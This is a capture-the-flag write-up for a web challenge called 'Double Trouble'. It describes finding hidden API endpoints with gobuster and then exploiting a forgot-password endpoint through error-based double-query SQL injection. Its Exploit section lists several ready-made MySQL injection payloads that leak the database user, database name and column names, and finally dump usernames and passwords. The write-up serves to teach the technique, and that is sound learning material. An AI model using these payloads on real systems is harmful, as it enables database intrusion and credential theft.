

# Double Trouble

## Preliminary Analysis

Probably my hardest challenge but once you understand what the vulnerability is it becomes pretty manageable.

If you read the description of the challenge carefully, you should realize that there are some hidden API endpoints and hidden routes which were shipped into production. 

Bruteforce penetration testing is a pretty hard problem when it comes to actually web exploitation. Finding the endpoint entirely depends on the pentester's skills and wordlist which he/she uses for exploitation.

Here I will be using gobuster with dirb's wordlists with a twist

Adding the api at the end of the URL is necessary to find the API endpoint. You can find /api/login\_user and /api/create\_user by inspecting the action fields of the login and create_user forms.

After finding the /api/forgot\_password endpoint, we should now find the vulnerability associated with this endpoint. 

## Vulnerability

Since everything in the website was sending POST requests from the forms to the website, this might also be a form related vulnerability. Now the most common vulnerability when it comes to taking form input in web exploitation is SQL Injection. Now the title of the challenge comes into picture where Double query attacks are a famous type of error based SQL Injection attack.

Double Query attacks are commonly used when the system is not returning any data back to the website which means that ~UNION SELECT~ can't be used. Once you realise that the vulnerability is a Double Query SQL Injection, exploiting the endpoint becomes very trivial as almost all Double Query attacks are based on exploiting the integrity error messages. 

## Exploit

Usually forgot password forms ask for either an Email-ID or a username. So sending a post request with the following query and you will be able to find that this API indeed accepts only the email field. Then following the standard procedure of slowly exploiting the DB to get the info and credentials follows.

Sending the following requests in order

+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT user()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"

  Leaks the user under which the DB is running
 
+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT database()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"
  
   Leaks the name of the DB

+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"
 
  Leaks the First Column name in the DB

+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"

  Leaks the second column name in the DB
  
  .
  .
  .
  
+ "sridhardked@gmail.com' AND SELECT * FROM users WHERE id = '1' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT MID(username,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 2,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"

  After getting all the column names, they can be used to get the username and passwords of all the users in the table using the mechanism
  
  The whole exploit is a group of at least 25-30 queries to leak titbits about the database slowly.

  I suggest making a MySQL database and trying out double query exploits and understanding how they work locally before testing on any server or service.

## Resources

+ [Link 1](https://www.adversify.co.uk/exploiting-double-query-sql-injections/)
+ [Link 2](https://www.infosecinstitute.com/resources/application-security/double-query-injections-demystified/?ref=adversify.co.uk#gref)
+ [Link 3](https://www.youtube.com/watch?v=NWVJ2b0D1r8)
